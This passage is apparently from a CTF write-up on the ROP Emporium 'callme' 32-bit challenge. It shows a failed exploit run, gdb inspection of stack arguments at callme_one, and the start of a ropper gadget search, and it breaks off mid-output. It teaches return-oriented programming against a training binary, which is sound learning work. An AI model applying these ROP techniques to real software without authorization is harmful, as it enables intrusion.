```
>>> p32(1)
'\x01\x00\x00\x00'
```
I tried the exploit:
```
$ python exploit.py | ./callme32 
callme by ROP Emporium
32bits

Hope you read the instructions...
> Incorrect parameters
```
Hmm, it did not work.

## Troubleshooting
I wanted to know what went wrong, so I decided to use `gdb` 
```
$ python exploit.py > payload
$ gdb ./callme32 -q
Reading symbols from ./callme32...(no debugging symbols found)...done.
(gdb) b callme_one
Breakpoint 1 at 0x80485c0
(gdb) b callme_two
Breakpoint 2 at 0x8048620
(gdb) b callme_three
Breakpoint 3 at 0x80485b0
(gdb) r < payload 
Starting program: /home/pwn/ropemporium/callme/32/callme32 < payload
callme by ROP Emporium
32bits

Hope you read the instructions...
> 
Breakpoint 1, 0xf7fcc6d4 in callme_one () from ./libcallme32.so
(gdb) x/x $esp
0xffffd2c8:     0x00000000
(gdb) x/2x $esp
0xffffd2c8:     0x00000000      0x41414141
(gdb) x/3x $esp
0xffffd2c8:     0x00000000      0x41414141      0x00000001
(gdb) x/4x $esp
0xffffd2c8:     0x00000000      0x41414141      0x00000001      0x00000002
(gdb) c
Continuing.
Incorrect parameters
[Inferior 1 (process 109162) exited with code 01]
(gdb)
```
So it looks like I forgot to put an address that I want to return to after the `callme_one` function.
And I also realised that I'll need a `pop` gadget to pop the arguments off the stack into registers, after the function is being called.
I used `ropper` to get the address of a `pop` chain.
```c
$ ropper --file callme32 --search "pop"
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme32
```